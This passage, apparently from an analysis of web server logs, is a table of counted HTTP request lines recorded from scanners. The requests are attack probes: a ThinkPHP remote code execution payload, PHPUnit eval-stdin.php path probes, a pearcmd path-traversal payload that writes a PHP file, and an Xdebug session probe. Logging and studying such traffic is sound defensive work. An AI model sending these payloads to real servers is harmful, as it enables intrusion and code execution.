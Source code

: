 |  49 |                     4 | GET /public/index.php?s=/index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello HTTP/1.1                                                                                                                                                                                                                                                                              |
|  50 |                     4 | GET /api/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                           |
|  51 |                     4 | GET /testing/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                       |
|  52 |                     4 | GET /test/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                          |
|  53 |                     4 | GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?echo(md5(\x22hi\x22));?>+/tmp/index1.php HTTP/1.1                                                                                                                                                                                                                                                                    |
|  54 |                     4 | GET /V2/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                            |
|  55 |                     4 | GET /ws/ec/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                         |
|  56 |                     4 | GET /zend/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                          |
|  57 |                     4 | GET /yii/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                           |
|  58 |                     4 | GET /ws/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                            |
|  59 |                     4 | GET /tests/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                         |
|  60 |                     4 | GET /app/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                           |
|  61 |                     4 | GET /?XDEBUG_SESSION_START=phpstorm HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                   |